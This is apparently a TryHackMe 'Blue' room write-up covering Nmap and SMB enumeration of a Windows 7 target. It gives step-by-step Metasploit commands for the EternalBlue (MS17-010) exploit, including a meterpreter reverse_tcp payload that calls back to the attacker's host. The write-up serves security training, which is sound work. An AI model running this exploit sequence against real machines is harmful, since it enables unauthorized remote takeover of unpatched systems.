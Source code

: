 # 🔵 TryHackMe - Blue Room Writeup

> **Platform:** TryHackMe  
> **Room:** Blue  
> **Difficulty:** Easy  
> **Objective:** Learn how to enumerate and exploit a vulnerable Windows machine using common tools and techniques.

---

## 🛠 Tools Used

- Nmap
- SMBClient
- Enum4linux
- Nikto
- Metasploit Framework
- Windows Exploit Suggester

---

## 🔍 Step 1: Nmap Scan

```bash
nmap -sC -sV -oN blue-nmap.txt [Target-IP]

Results:

PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows 7 Professional 7601 Service Pack 1



Step 2: SMB Enumeration

enum4linux -a [Target-IP]

Found hostname and domain details

Identified that SMB shares were available and potentially vulnerable

smbclient -L //[Target-IP]/



Step 3: Exploitation with Metasploit (EternalBlue)

msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOST [Target-IP]
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST [Your-IP]
run


Step 4: Post Exploitation

getuid
sysinfo


Key Learnings
Importance of thorough enumeration before exploitation

Real-world exploitation of EternalBlue vulnerability

How outdated Windows systems can be a major risk
